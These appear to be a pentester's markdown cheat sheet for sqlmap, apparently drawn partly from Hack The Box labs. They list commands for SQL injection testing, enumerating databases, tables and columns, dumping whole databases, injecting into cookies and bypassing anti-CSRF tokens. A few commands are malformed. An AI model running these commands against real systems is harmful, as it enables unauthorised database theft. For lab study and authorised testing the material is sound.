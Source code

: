 **Simple HTTP GET Based Test**  
  
```
sqlmap -u https://testsite.com/page.php?id=7 --dbs 

```  

Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database.



**Simple HTTP POST Based Test**  

First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.

Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:  
  
```
sqlmap -r req.txt -p blood_group --dbs

```  

```
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs

```

  

Here we have used two flags: -r to read the file, -p to supply the vulnerable parameter, and --dbs to enumerate the database.

Database Enumeration

           `nare@nare$ sqlmap -r req.txt -p blood_group --dbs`
		   
		   **Using GET based Method**  
  
  **Using GET based Method**
  #sqlmap/database/tables


```
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables

```
  

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables

``` 

**Using POST based Method**

```
sqlmap -r req.txt -p blood_group -D blood --tables

```

```
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables

```


  
**Using GET based Method**
#sqlmap/database/columns
``` 
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns 

```
``` 
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns 

```

  
**Using POST based Method**

```
sqlmap -r req.txt -D blood -T blood_db --columns

```

``` 
sqlmap -r req.txt -D <database_name> -T <table_name> --columns

```


**Using GET based Method**
#sqlmap/database/dump_all

``` 
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all 

```  
  
``` 
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`  

```  
**Using POST based Method**

``` 
sqlmap -r req.txt -D <database_name> --dump-all 

```  
  
``` 
sqlmap -r req.txt-p  -D <database_name> --dump-all

```


```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

---
HTB

## injection mark header 
```
sqlmap -r req.txt --cookie='id=1*' --level=2 --dbs --batch
```


## Prefix/Suffix

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

## Level/Risk

```shell-session
 sqlmap -u www.example.com/?id=1 -v 3 --level=5
```


```shell-session
 sqlmap -u www.example.com/?id=1 --level=5 --risk=3
```


```shell-session
 sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

e.g. `-v 3`), messages containing the used `[PAYLOAD]` will be displayed, as follows:


```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```

```
sqlmap -u http://178.62.107.21:31912/case1.php?id=1 - search -C pass

```

## Anti-CSRF Token Bypass

```

POST /case8.php HTTP/1.1
Host: 159.65.89.165:31057
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://159.65.89.165:31057/case8.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://159.65.89.165:31057
Connection: close
Cookie: PHPSESSID=fm2kervendvoqlie7rsgvmqhc2
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

id=1&t0ken=9KpxvkjMxT6F8TPg9OY9SS8TlGxbQfhWatqtKpyHQ1Y
```

```shell

sqlmap -u "http://www.example.com/" --data="id=1&t0ken=9KpxvkjMxT6F8TPg9OY9SS8TlGxbQfhWatqtKpyHQ1Y" --csrf-token="csrf-token"

```
